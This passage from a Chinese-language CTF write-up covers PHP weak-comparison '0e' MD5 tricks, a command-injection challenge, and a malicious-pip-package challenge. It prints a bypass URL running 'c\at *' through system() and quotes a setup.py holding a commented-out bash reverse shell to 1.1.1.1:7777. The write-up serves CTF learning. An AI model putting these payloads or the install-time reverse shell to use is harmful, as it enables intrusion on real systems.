 md51 = 0e85776838554cc1775842c212686416  

md52 = 0e462097431906509019562988736854

这里用到的知识为：php弱类型判断时，MD5以0e开头，并且后面全部都是0-9的数字，才可以相等。如果有字母是不可以的！

第三个

```php
//3rd
$query = $_SERVER['QUERY_STRING'];
if (strlen($cmd) > 8){
    die("too long :(");
}

if( substr_count($query, '_') === 0 && substr_count($query, '%5f') === 0 ){
    $arr = explode(' ', $cmd);
    if($arr[0] !== 'ls' || $arr[0] !== 'pwd'){
        if(substr_count($cmd, 'cat') === 0){
            system($cmd);
        }
        else{
            die('ban cat :) ');
        }
    }
    else{
        die('bad guy!');
    }
}
else{
    die('nonono _ is bad');
} 
```

php会把空格或者点（.）自动替换成下划线，可以用来绕过。  

cat命令，直接`cat *`可以打印当前目录下全部文件。  

`http://nctf2019.x1ct34m.com:60005/?num=23333%0a&str1=2120624&str2=240610708&q.w.q=c\at *`

得到flag`NCTF{t3is_So_siiimpppllleeee_to_u}`

## Misc

### pip install

从官网上下载完整的包文件来查看。  

审计到setup.py时，发现了这样的代码：  

```python
tmp_file = tempfile.gettempdir() + path.sep + '.f14g_is_here'
f = open(tmp_file, 'w')
f.write('TkNURntjNHJlZnVsX2FiMHU3X2V2MWxfcGlwX3A0Y2thZ2V9')
f.close()

# system('bash -i >& /dev/tcp/1.1.1.1/7777 0>&1')
# Ohhhh, that a joke. I won't do that. 

setup(...
```

